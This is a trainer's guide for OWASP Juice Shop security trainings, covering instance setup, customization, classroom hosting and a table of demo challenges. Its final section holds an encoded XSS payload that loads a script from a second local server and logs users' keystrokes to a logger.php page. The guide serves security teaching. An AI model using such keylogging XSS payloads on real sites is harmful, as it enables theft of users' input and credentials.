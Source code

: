 # Trainer's guide

Co-authored by [Timo Pagel](https://github.com/wurstbrot)

## Instances

Make sure all participants have their own running Juice Shop instance to
work with. While attempting challenges like
[RCE](../part2/insecure-deserialization.md) or [XXE](../part2/xxe.md)
students might occasionally take down their server and would severely
impact other participants if they shared an instance.

There are multiple [Run Options](../part1/running.md#run-options) which
you can choose from. It is perfectly fine to run multiple docker
containers on one host. They do not effect each other.

## Customization

Especially in awareness trainings for management you might want to
create a higher immersion by making the Juice Shop look like an
application in the corporate design of the participants' own company.
Juice Shop offers
[various customization options](../part1/customization.md) to achieve
this.

Several custom configurations already come packaged with the Juice Shop
source code, the two most sophisticated ones being
[7 Minute Security](https://github.com/bkimminich/juice-shop/blob/master/config/7ms.yml)
and
[Mozilla](https://github.com/bkimminich/juice-shop/blob/master/config/mozilla.yml).

In addition, you might want to disable all challenge notifications
during awareness trainings to avoid distraction. The
[Quiet](https://github.com/bkimminich/juice-shop/blob/master/config/quiet.yml)
configuration demonstrates the necessary options to achieve this.

![Quiet mode](img/quiet_mode.png)

For a really sophisticated and immersive demo consider performing some
[Additional Browser tweaks](../part1/customization.md#additional-browser-tweaks).
These will let you use OAuth2 login via Google and cast the illusion
that coupon codes were actually tweeted by your customer's company.

## Classroom hints

In a class room setup you have to find a way to distribute the URL of
each instance to the participants. For small groups, it is probably fine
to just spin up a number of containers and tell all participants which
URL they have to use. An example to spin up 10 Docker containers on a
UNIX based system is to run

```
for i in {10..19}; do docker run -d -p 40$i:3000 bkimminich/juice-shop; done
```

If you want to track progress centrally during the training, you might
want to [host a central CTF server](../part1/ctf.md) where participants
can post the challenges they already solved. You might consider turning
off public visibility of the leader board on the CTF server unless you
want to encourage the students to hack very competitively.

### Hosting individual instances for multiple users

A solution to host and manage individual Juice Shop instances for
multiple users is [JuicyCTF](https://github.com/iteratec/juicy-ctf/).
JuicyCTF is a Kubernetes based system to start up the required Juice
Shop instances on demand. It will also clean up unused instances after a
configured period of inactivity.

JuicyCTF comes with a custom-built load balancer. It allows every
participant to use the same URL, but their traffic will always be sent
to their own personal instance.

The JuicyCTF repository contains multiple guides on how to set up the
system on different cloud provider environments.

## Existing trainings

One existing training which uses the Juice Shop for example is a
[Timo Pagel's University Module](https://drive.google.com/open?id=1ITkTAALjZJnGV-hhAZ-zQfNx1sVTzlA2UlWD0s270ig).
The structure mostly is as follows:

1. Introduce a topic (e.g. SQL Injection)
2. Let the participants try it out in the Juice Shop
3. Show mitigation/counter measures

Björn Kimminich's
[Web Application Security Training](https://www.slideshare.net/BjrnKimminich/web-application-security-training-v410)
slides as well as the web attack chapters of his
[IT Security Lecture](https://github.com/bkimminich/it-security-lecture)
follow a similar pattern of

1. Introduction
2. Timeboxed exercise
3. Demonstration of the hack (for all who did not finish the exercise in
   time)
4. Explaining mitigation and prevention

You can find more links to existing material in the
[Lectures and Trainings section](https://github.com/bkimminich/juice-shop/blob/master/REFERENCES.md#lectures-and-trainings)
of the project references on on GitHub.

## Challenges for demos

The following challenges are well suited for live demonstrations in
trainings or talks. You should **always** begin by showing how to find
the
[Score Board](../part2/score-board.md#find-the-carefully-hidden-score-board-page)
( ⭐ ) so you can then pick any of the challenge below to further
demonstrate certain categories of vulnerabilities.

| Description                                                                                                         | Category                   | Difficulty | Time for demo | Dependencies                                                                                                                                                                                                                                                                                                                                             |
|:--------------------------------------------------------------------------------------------------------------------|:---------------------------|:-----------|:--------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| [DOM XSS](../part2/xss.md#perform-a-dom-xss-attack)                                                                 | XSS                        | ⭐          | ⏳             | None                                                                                                                                                                                                                                                                                                                                                     |
| [Confidential Document](../part2/sensitive-data-exposure.md#access-a-confidential-document)                         | Sensitive Data Exposure    | ⭐          | ⏳             | None                                                                                                                                                                                                                                                                                                                                                     |
| [Login Admin](../part2/injection.md#log-in-with-the-administrators-user-account)                                    | Injection                  | ⭐⭐        | ⏳             | None                                                                                                                                                                                                                                                                                                                                                     |
| [Reflected XSS](../part2/xss.md#perform-a-reflected-xss-attack)                                                     | XSS                        | ⭐          | ⏳             | Log in as any user                                                                                                                                                                                                                                                                                                                                       |
| [Classic Stored XSS](../part2/xss.md#perform-an-xss-attack-on-a-legacy-page-within-the-application)                 | XSS                        | ⭐          | ⏳             | Log in as any user                                                                                                                                                                                                                                                                                                                                       |
| [Privacy Policy](../part2/miscellaneous.md#read-our-privacy-policy)                                                 | Miscellaneous              | ⭐          | ⏳             | Log in as any user                                                                                                                                                                                                                                                                                                                                       |
| [Privacy Policy Inspection](../part2/security-through-obscurity.md#prove-that-you-actually-read-our-privacy-policy) | Security through Obscurity | ⭐⭐⭐       | ⏳⏳            | [Privacy Policy](../part2/miscellaneous.md#read-our-privacy-policy)                                                                                                                                                                                                                                                                                      |
| [Admin Section](../part2/broken-access-control.md#access-the-administration-section-of-the-store)                   | Broken Access Control      | ⭐⭐        | ⏳⏳            | [Login Admin](../part2/injection.md#log-in-with-the-administrators-user-account) or [Admin Registration](../part2/improper-input-validation.md#register-as-a-user-with-administrator-privileges)                                                                                                                                                         |
| [View Basket](../part2/broken-access-control.md#view-another-users-shopping-basket)                                 | Broken Access Control      | ⭐⭐        | ⏳⏳            | Log in with two different users                                                                                                                                                                                                                                                                                                                          |
| [Easter Egg](../part2/broken-access-control.md#find-the-hidden-easter-egg)                                          | Broken Access Control      | ⭐⭐⭐⭐     | ⏳⏳⏳           | Explain _Poison Null Byte_                                                                                                                                                                                                                                                                                                                               |
| [Nested Easter Egg](../part2/cryptographic-issues.md#apply-some-advanced-cryptanalysis-to-find-the-real-easter-egg) | Cryptographic Issues       | ⭐⭐⭐⭐     | ⏳⏳⏳           | [Easter Egg](../part2/broken-access-control.md#find-the-hidden-easter-egg)                                                                                                                                                                                                                                                                               |
| [Forgotten Developer Backup](../part2/sensitive-data-exposure.md#access-a-developers-forgotten-backup-file)         | Sensitive Data Exposure    | ⭐⭐⭐⭐     | ⏳⏳⏳           | Explain _Poison Null Byte_                                                                                                                                                                                                                                                                                                                               |
| [Forged Coupon](../part2/cryptographic-issues.md#forge-a-coupon-code-that-gives-you-a-discount-of-at-least-80)      | Cryptographic Issues       | ⭐⭐⭐⭐⭐⭐  | ⏳⏳⏳⏳          | [Forgotten Developer Backup](../part2/sensitive-data-exposure.md#access-a-developers-forgotten-backup-file) and `z85-cli` installed **or** [Forgotten Sales Backup](../part2/sensitive-data-exposure.md#access-a-salesmans-forgotten-backup-file) **or** tracing coupons from Twitter/Reddit back to <https://travis-ci.org/bkimminich/juicy-coupon-bot> |

## XSS demo

A particularly impressive
[showcase of XSS site-defacement combined with a keylogger](https://github.com/wurstbrot/shake-logger)
is provided explicitly for live demos and awareness trainings:

1. Install [Docker](https://www.docker.com/).
2. Run `git clone https://github.com/wurstbrot/shake-logger`.
3. Run `cd shake-logger` and then `docker-compose up`.
4. Turn on your speakers and make sure your browser is allowed to play
   sound.
5. Open
   [this link](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp)
   to launch the XSS demo (🔊).
6. Use the application normally, e.g. doing a search and logging in with
   some user.
7. In a new tab go to <http://localhost:8080/logger.php> to see that all
   user input was transmitted to a third-party server.
8. Show the Network tab of the browser window with Juice Shop to see the
   requests that are sent to the `logger.php` script.
9. Reload the Juice Shop with `F5` and use the application a bit more.
10. You will see that no more logging takes place as XSS payload was
    removed during the reload.

There is also a video recording available on YouTube:
<https://youtu.be/Msi52Kicb-w>. This is a good fallback
in case the Docker-based setup does not work for you.
